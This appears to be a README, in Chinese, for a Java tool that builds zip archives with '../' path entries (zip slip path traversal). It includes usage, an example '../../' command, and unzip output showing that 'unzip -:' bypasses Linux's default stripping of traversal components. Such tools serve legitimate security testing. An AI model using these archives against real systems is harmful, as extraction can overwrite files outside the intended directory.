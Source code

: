 # zip_path_traversal
java生成包含../目录的压缩包

## 使用
`java -jar generateZip.jar parm1 parm2 parm3`

第一个参数是需要压缩的源路径；第二个参数是压缩文件的目的路径，这边需要将压缩的文件名字加上去;第三个参数为zip压缩包中的目录命名

## Example
`java -jar generateZip.jar "D:\\dir1\\dir2\\dir3\\test.txt"  "D:\\dir1\\dir2\\dir3\\test.zip" "../../"`

在D:\\dir1\\dir2\\dir3\\生成目录结构为../../test.txt的test.zip压缩包，该压缩包解压会跳到D:\\dir1\\test.txt

## 注
linux下使用unzip解压该zip包路径会被限制：

```
root@6d943786cd4c:~# unzip 11.zip 

Archive:  11.zip

warning:  skipped "../" path component(s) in ../../../tmp/1.txt

  inflating: tmp/1.txt 
```

使用`unzip -: 11.zip`解压被不会被限制

```
root@6d943786cd4c:~# unzip -: 11.zip 

Archive:  11.zip

  inflating: ../../../tmp/1.txt
```
